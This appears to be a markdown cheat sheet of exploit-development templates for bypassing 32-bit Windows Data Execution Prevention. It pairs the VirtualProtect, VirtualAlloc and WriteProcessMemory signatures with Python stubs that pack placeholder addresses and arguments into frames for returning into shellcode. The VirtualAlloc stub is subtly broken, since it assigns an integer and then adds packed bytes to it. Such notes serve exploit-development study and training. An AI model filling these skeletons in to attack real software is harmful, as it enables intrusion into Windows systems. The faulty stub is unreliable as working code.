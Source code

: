 # Skeletons

---

### Table of Contents
- [Data Execution Prevention Bypass for 32bit](#data-execution-prevention-bypass-for-32bit)
  * [VirtualProtect](#virtualprotect)
  * [VirtualAlloc](#virtualalloc)
  * [WriteProcessMemory](#writeprocessmemory)

---

## Data Execution Prevention Bypass for 32bit
Data Execution Prevention (DEP) related stuff, with focus 32bit.

### VirtualProtect
- See [VirtualProtect](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect)

```c
BOOL VirtualProtect(
  [in]  LPVOID lpAddress,
  [in]  SIZE_T dwSize,
  [in]  DWORD  flNewProtect,
  [out] PDWORD lpflOldProtect
);
```

```python
vp = pack('<L', 0x41414141)   # VirtualProtect addy
vp += pack('<L', 0x42424242)  # shellcode return addy to return to, after VirtualProtect was called
vp += pack('<L', 0x43434343)  # lpAddress ---> same as above
vp += pack('<L', 0x44444444)  # dwSize ---> size of shellcode (0x400 or something like that)
vp += pack('<L', 0x45454545)  # flNewProtect ---> 0x40
vp += pack('<L', 0x46464646)  # lpflOldProtect ---> some writable memory address
```

### VirtualAlloc
- See [VirtualAlloc](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)

```c
LPVOID VirtualAlloc(
  [in, optional] LPVOID lpAddress,
  [in]           SIZE_T dwSize,
  [in]           DWORD  flAllocationType,
  [in]           DWORD  flProtect
);
```

```python
va = 0x41414141               # VirtualAlloc addy
va += pack('<L', 0x42424242)  # shellcode return addy to return to, after VirtualAlloc was called
va += pack('<L', 0x43434343)  # lpAddress ---> shellcode addy (same as above)
va += pack('<L', 0x44444444)  # dwSize ---> 0x1
va += pack('<L', 0x45454545)  # flAllocationType ---> 0x1000
va += pack('<L', 0x46464646)  # flProtect ---> 0x40
```

### WriteProcessMemory
- See [WriteProcessMemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)

```c
BOOL WriteProcessMemory(
  [in]  HANDLE  hProcess,
  [in]  LPVOID  lpBaseAddress,
  [in]  LPCVOID lpBuffer,
  [in]  SIZE_T  nSize,
  [out] SIZE_T  *lpNumberOfBytesWritten
);
```

```python
wpm = pack('<L', 0x41414141)    # WriteProcessMemory addy
wpm += pack('<L', 0x42424242)   # shellcode return addy to return to, after WriteProcessMemory was called (code cave)
wpm += pack('<L', 0xffffffff)   # hProcess ---> pseudo Process handle ---> -1
wpm += pack('<L', 0x44444444)   # lpBaseAddress ---> addy of code cave (same as above, dst)
wpm += pack('<L', 0x45454545)   # lpBuffer ---> shellcode addy (src)
wpm += pack('<L', 0x46464646)   # nSize ---> shellcode size
wpm += pack('<L', 0x47474747)   # lpNumberOfBytesWritten ---> writable memory addy
```
